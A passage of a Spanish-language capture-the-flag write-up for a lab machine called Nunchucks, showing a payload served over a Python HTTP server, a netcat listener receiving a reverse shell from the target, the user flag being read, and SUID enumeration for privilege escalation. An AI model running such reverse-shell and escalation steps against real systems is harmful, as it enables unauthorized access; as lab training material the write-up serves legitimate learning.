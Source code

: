 Y a su vez, estaremos escuchando con `netcat` por el puerto 1235, si mandamos la información:

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.122 - - [12/Feb/2023 01:13:05] "GET / HTTP/1.1" 200 -
```
Y en el `netcat`:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.122] 43250
bash: cannot set terminal process group (1005): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ 
```

¡Bien!, estamos dentro de la máquina, buscamos la flag:
```
david@nunchucks:~$ cat user.txt
cat user.txt
e707026421f7744f3c6c7a7a6
```

Excelente ahora toca escalar privilegios.

## [](#header-2)Escalada de privilegios
```
david@nunchucks:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:~$ sudo -l
[sudo] password for david: 
Sorry, try again.
[sudo] password for david: 
sudo: 1 incorrect password attempt
david@nunchucks:~$ netstat -nat

Command 'netstat' not found, but can be installed with:

apt install net-tools
Please ask your administrator.
```

No podemos ver los privilegios porque no tenemos la contraseña. 

Si buscamos por SUID encontramos cosas:
```
david@nunchucks:~$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```
Sin embargo, no utilizaremos `pkexec` para escalar privilegios.
